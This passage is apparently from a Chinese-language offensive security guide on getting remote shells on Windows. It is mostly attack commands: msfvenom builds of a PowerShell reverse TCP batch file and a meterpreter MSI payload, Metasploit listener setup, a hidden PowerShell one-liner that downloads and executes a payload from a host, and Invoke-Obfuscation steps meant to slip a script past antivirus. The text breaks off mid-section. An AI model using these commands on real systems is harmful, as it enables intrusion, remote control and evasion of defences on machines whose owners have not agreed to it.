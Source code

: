 5.PowerShell 运行 bat

```bash
msfvenom -p cmd/windows/powershell_reverse_tcp lhost=<Host> lport=<Port> -o attack.bat
```

MSF 监听。

```bash
handler -p cmd/windows/powershell_reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat'))"
```

6.补充

PowerShell 混淆

[Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

导入脚本

```bash
powershell -ep bypass import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation
```

设置需要混淆的脚本路径。

```bash
set scriptpath C:\attack.ps1
```

设置混淆模式。

```bash
token\all\1
```

输出混淆后脚本。

```bash
out mix-attack.ps1
```

尝试执行混淆后脚本看 AV 是否拦截。

```bash
powershell -ep bypass -f mix-attack.ps1
```

#### 2.1.7 msiexec

msiexec 用于安装 Windows MSI 程序，常常通过命令行用来批量安装应用。

生成 Payload。

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f msi -o attack.msi
```

MSF 监听。
